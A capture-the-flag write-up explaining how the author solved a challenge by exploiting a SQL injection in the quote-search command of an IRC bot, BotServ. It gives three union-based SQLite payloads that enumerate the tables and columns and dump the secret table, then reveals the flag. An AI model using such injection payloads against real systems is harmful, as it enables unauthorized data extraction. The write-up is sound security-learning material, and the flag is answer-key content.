



# Old
> When the art of quoting is being dominated, the old secrets are brought to the light.

## About the Challenge
There is a bot called `BotServ` which has many functions, such as being able to search for quotes, being able to display quotes, etc.



## How to Solve?
There is a search feature in the `BotServ` bot where this function is vulnerable to SQL injection on SQLite database. Here is the query I used to extract the table name, the column, and also the data

Extract table name
```
/msg BotServ QUOTES SEARCH ')/**/union/**/SELECT/**/group_concat(tbl_name)/**/FROM/**/sqlite_master/**/WHERE/**/type='table'/**/and/**/tbl_name/**/NOT/**/like/**/'sqlite_%'/**/limit/**/1/**/offset/**/1--
```



Extract column name
```
/msg BotServ QUOTES SEARCH ')/**/union/**/SELECT/**/GROUP_CONCAT(name)/**/AS/**/column_names/**/FROM/**/pragma_table_info('old_secrets')/**/LIMIT/**/1/**/OFFSET/**/1--
```



Extract data
```
/msg BotServ QUOTES SEARCH ')/**/union/**/select/**/secret/**/from/**/old_secrets/**/limit/**/1/**/offset/**/5--
```

The flag was found in the `secret` column inside the `old_secrets` table


```
EKO{s3cr3tzzzzz}
```